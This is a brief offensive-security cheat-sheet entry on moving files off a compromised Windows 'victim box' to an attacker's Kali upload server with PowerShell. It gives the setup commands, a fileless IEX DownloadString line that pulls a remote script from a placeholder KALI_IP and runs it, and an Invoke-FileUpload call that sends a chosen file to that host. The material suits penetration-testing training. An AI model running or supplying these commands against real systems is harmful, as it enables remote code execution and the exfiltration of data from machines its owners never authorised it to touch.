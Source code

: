 We can upload stuff using powershell without having to use base64. This is useful for very large files.

https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1


```
# Install / Start Upload server on KALI

pip3 install uploadserver 
python3 -m uploadserver

# Download PSUpload.ps1 to KALI

wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1


# File Transfer to Victim box
# Do this however you like...
IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/PSUpload.ps1')


# Execute FileUpload

Invoke-FileUpload -Uri http://<KALI_IP>:8000/upload -File C:\path\to\<file>


``